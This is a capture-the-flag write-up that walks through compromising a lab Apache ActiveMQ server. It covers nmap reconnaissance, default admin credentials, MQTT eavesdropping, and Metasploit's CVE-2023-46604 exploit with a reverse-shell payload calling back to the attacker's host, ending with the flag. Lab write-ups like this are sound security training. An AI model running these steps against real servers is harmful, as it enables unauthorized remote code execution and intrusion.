

# Writeup
by fluffyhake

## Solution
Running metasploit with the `multi/misc/apache_activemq_rce_cve_2023_46604` exploit gives us a reverse shell where we can obtain the flag.

### Example

```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185

msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/bkuRyqOrWH
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r45tNsHKThhcMCnA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r45tNsHKThhcMCnA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.128.2.186:4444 -> 10.128.2.185:42398) at 2024-11-03 21:21:02 +0000
[*] 10.128.2.185:61616 - Server stopped.


cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}

```

## Explanation
To get some information about the host we started by running `nmap -A -sS -p- -Pn 10.128.2.185` to gather information about open ports and services.

```
$ nmap -A -sS -p- -Pn 10.128.2.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 18:30 UTC
Nmap scan report for ip-10-128-2-185.eu-west-1.compute.internal (10.128.2.185)
Host is up (0.00026s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:70:2a:43:ae:f2:5b:9a:88:a7:67:ef:c0:08:6e:2a (RSA)
|   256 4e:79:45:f2:30:5b:12:0f:34:12:5d:34:5b:cf:6c:d8 (ECDSA)
|_  256 ed:4f:5c:ad:c1:fa:c1:33:d9:4c:92:83:37:36:c9:b1 (ED25519)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.2.22.v20170606
|_http-server-header: Jetty(9.2.22.v20170606)
|_http-title: Apache ActiveMQ

and so on...
```

The server is responding on a lot of ports. After some poking around we see that the website at tcp/8161 is running Apache ActiveMQ with default credentials `username: admin password: admin`.

This was really interesting. We could listen to messages with `mosquitto_sub -v -h 10.128.2.185 -p 1883 -t '#'` and see messeges sent from the admin panel. 



We do not have a shell yet, so let's look for some other way in. Looking for Apache ActiveMQ exploits we find a metasploit exploit that can give us a reverse shell. It's called `multi/misc/apache_activemq_rce_cve_2023_46604`. Let's try it.

Launching the metasploit console
```
msfconsole
```

Selecting the exploit we found
```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
```
List the possible targets.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows
    1   Linux
    2   Unix

```
In our case we select Unix. I struggled to get any other payload than `cmd/unix/reverse` to work, so thats why we used Unix.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
```

Show all available options for this exploit. We need to define RHOSTS here since it's required.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.co
                                       m/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )

```

use `set` to set RHOSTS. RHOSTS is one or multiple remote hosts to exploit.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185
```
Set the payload to `cmd/unix/reverse`. The payload defines what to do when we have executed the exploit successfully. This could be reading files, creationg users or opening a reverse shell. We want that reverse shell. To see all available payloads for the exploit you can run `show payloads`.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
```
Finally, run `exploit` to execute.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/3TCbclwjZo33SHe
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jxhfGYLjMSxVO6hV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jxhfGYLjMSxVO6hV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.128.2.186:4444 -> 10.128.2.185:42382) at 2024-11-03 19:28:59 +0000
[*] 10.128.2.185:61616 - Server stopped.


dir
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
```
We now have a reverse shell. Let's use metasploit to give us a proper bash shell by running `shell`

```
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash


[prime@ip-10-128-2-185 /]$ whoami
whoami
prime
```
We now have a shell in the context of the prime user. Let's look around for a bit
```
[prime@ip-10-128-2-185 /]$ cd
cd

[prime@ip-10-128-2-185 ~]$ ls
ls
user.txt
```
In the home folder there is a file called user.txt. It contains the flag 🎉
```
[prime@ip-10-128-2-185 ~]$ cat user.txt	
cat user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

